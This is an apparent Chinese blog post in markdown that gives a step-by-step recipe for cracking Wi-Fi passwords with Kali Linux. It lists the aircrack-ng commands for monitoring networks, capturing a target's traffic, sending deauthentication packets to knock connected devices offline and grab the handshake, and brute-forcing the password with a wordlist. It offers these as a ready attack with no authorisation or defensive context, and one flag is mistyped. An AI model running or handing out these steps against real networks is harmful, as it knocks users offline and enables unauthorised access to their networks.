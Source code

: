 ```yaml
---
title: kali无线网卡破解wifi密码.md
toc: true
date: 2021-09-23 20:50:54
tags:
categories: 黑

---
```




*先决条件：`kali+网卡`*

`airmon-ng check kill`清缓存

`iwconfig`及`ifconfig`找网卡名称（以下命名为wlan0）

`airodump-ng wlan0`查看列表

`airodump-ng wlan0 —bassid mac地址 -c 1 -w 文件名(如:haha)`监听，此窗口不要关闭

当发现有设备在连接后`aireplay-ng -0 20 -a mac地址 -c 设备地址 wlan0`断网攻击，以抓取数据包.cap

暴力破解数据包`aircrack-ng -w 字典 包`
